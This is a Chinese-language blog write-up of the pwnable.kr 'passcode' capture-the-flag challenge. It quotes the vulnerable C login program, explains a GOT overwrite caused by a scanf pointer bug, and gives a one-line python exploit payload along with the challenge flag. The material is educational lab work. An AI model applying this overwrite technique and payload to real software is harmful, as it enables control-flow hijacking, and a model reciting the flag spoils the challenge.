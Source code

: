 ```yaml
---
layout: post
title: "pwnable.kr passcode"
date: 2018-07-10 
tag: pwn Writeup pwnable.kr
---
```


用`ssh passcode@pwnable.kr -p2222 (pw:guest)`连上后看见有源码，代码如下：

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;
}
```

我们可以很明显的看见 login() 函数中 scanf() 写错了。`scp -P 2222 passcode@pwnable.kr:passcode /images/posts/pwnable.kr_passcode/` 把二进制文件down下来看了看发现 passcode1 就是 name[] 的最后4个字节。因此我们有了一次向任意地址写入4 bytes的机会。

![img_1](/images/posts/pwnable.kr_passcode/img_1.png)

![img_2](/images/posts/pwnable.kr_passcode/img_2.png)

用 checksec 查看一下保护。

![img_3](/images/posts/pwnable.kr_passcode/img_3.jpg)

现在我的想法是通过修改GOT表来控制EIP，GOT表的相关知识可以看看我写的[GOT与PLT](https://demonsin.github.io/2018/06/GOT%E4%B8%8EPLT/)。

我们将目标代码 `system("/bin/cat flag");` 的地址覆盖掉GOT表中 printf() 的地址。这样接下来调用 printf() 时就会跳到目标代码去了。

用 `readelf -r passcode` 看见 printf() 在 GOT表中的地址为 0x0804a000。在 IDA 中看到目标地址为 0x080485E3，即十进制的 134514147。

![img_4](/images/posts/pwnable.kr_passcode/img_4.jpg)

![img_5](/images/posts/pwnable.kr_passcode/img_5.png)

exp: `python -c "print 'A' * 96 + '\x00\xa0\x04\x08' + '134514147\n'" | /images/posts/pwnable.kr_passcode/passcode`

![img_6](/images/posts/pwnable.kr_passcode/img_6.png)

flag: Sorry mom.. I got confused about scanf usage :(
